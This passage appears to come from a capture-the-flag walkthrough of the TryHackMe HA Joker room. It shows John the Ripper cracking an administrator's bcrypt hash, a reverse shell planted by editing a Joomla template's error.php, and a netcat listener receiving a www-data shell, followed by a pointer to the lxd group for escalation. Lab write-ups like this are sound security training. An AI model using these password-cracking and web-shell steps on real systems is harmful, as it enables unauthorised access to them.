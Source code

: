 `admin`

5.  Super Duper User! What is the password?

```
bibo318@parrot:~/CTFs/tryhackme/HA Joker CTF$ john admin.hash /usr/share/wordlists/rockyou.txt --format=bcrypt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
abcd1234         (?)
1g 0:00:00:09 DONE 2/3 (2020-10-08 20:39) 0.1076g/s 79.44p/s 79.44c/s 79.44C/s yellow..allison
Use the "--show" option to display all of the cracked passwords reliably
Session completed
bibo318@parrot:~/CTFs/tryhackme/HA Joker CTF$
```

`abcd1234`

7.  At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

[http://10.10.252.64:8080/administrator/index.php?option=com_templates&view=template&id=503&file=L2Vycm9yLnBocA%3D%3D](http://10.10.252.64:8080/administrator/index.php?option=com_templates&view=template&id=503&file=L2Vycm9yLnBocA%3D%3D)

![](2020-10-08_20-43.png)

[http://10.10.252.64:8080/templates/beez3/error.php](http://10.10.252.64:8080/templates/beez3/error.php)

```
bibo318@parrot:~/CTFs/tryhackme/HA Joker CTF$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.252.64] 43184
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:46:07 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$
```

`www-data`

8.  This user belongs to a group that differs on your own group, What is this group?

`lxd`

10. Spawn a tty shell.
